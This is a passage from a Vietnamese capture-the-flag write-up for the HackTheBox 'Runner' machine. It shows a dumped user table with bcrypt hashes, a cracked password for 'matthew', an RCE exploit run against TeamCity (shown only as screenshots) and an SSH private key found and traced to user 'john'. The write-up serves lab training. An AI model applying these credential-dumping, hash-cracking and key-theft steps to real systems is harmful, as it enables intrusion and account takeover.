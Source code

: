 ```
cat: users: Permission denied
❯ chmod +r users
❯ cat users
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1758820746773, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, admin.9tww, $2a$07$vOfH367O2rSBivLQbswuzOwD1OafgwSn3ZLGFERXV/.L4L/1xrE9i, , admin.9tww@lol.omg, 1758819480230, BCRYPT
12, admin.zb5k, $2a$07$EgQqxUuFa456nh/nd/QH2ubVEGnGJ0Km9Ve8009rTshnZ045MxsUW, , admin.ZB5K@lol.omg, , BCRYPT
13, admin.pkli, $2a$07$Tph/5jSNNOSbeagvUmnL5ujnfZ8.6DaaP2JhFRHcVSTOBG3NbSDk6, , admin.pKlI@lol.omg, 1758820838249, BCRYPT
```

Sau 1 lúc crack thì tôi ra được mật khẩu của `matthew` là `piper123`:

<img width="1110" height="898" alt="image" src="https://github.com/user-attachments/assets/a9708b25-f8d3-4d93-8ec5-1f8b2496bf6b" />

Có vẻ như cred của user matthew không ssh vào được:

```
❯ ssh matthew@10.10.11.13
matthew@10.10.11.13's password: 
Permission denied, please try again.
```

Tiếp tục thì chạy đoạn exploit kia để rce xem thử có gì:

<img width="1355" height="344" alt="image" src="https://github.com/user-attachments/assets/f482da8e-d2cf-4a91-b24a-f835b2eb4877" />

Ngồi tìm kiếm thì tôi tìm được key ssh:

```
$ pwd
/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys
$ ls -la
total 12
drwxr-x--- 2 tcuser tcuser 4096 Feb 28  2024 .
drwxr-x--- 3 tcuser tcuser 4096 Feb 28  2024 ..
-rw-r----- 1 tcuser tcuser 2590 Feb 28  2024 id_rsa
$ whoami
tcuser
```

Tôi tải về và sử dụng lệnh để check xem key này thuộc về user nào và nó thuộc về john:

```
❯ cat id_rsa | grep -v '\-\-'|base64 -d | xxd | tail -2
grep: warning: stray \ before -
00000730: c73d cf67 9c81 9b00 0000 0b6a 6f68 6e40  .=.g.......john@
00000740: 7275 6e6e 6572                           runner
```
